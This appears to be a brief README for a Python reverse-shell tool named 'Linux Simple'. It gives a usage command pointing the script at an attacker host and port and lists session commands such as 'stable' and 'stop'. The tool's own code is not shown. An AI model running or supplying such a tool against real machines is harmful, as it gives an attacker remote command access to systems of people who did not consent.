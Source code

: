 "Linux Simple"
Simple shell, usage:

python3 simple_linux_rev_shell.py --host <attacker host> --port <attacker port>

You can also comment args parser and input ip:port in the code.

**Commands:**
- **stable:** try to establish connection (You can not use Ctrl+C, TABs and etc)
- **stop:** break the connection
- Linux standard commands
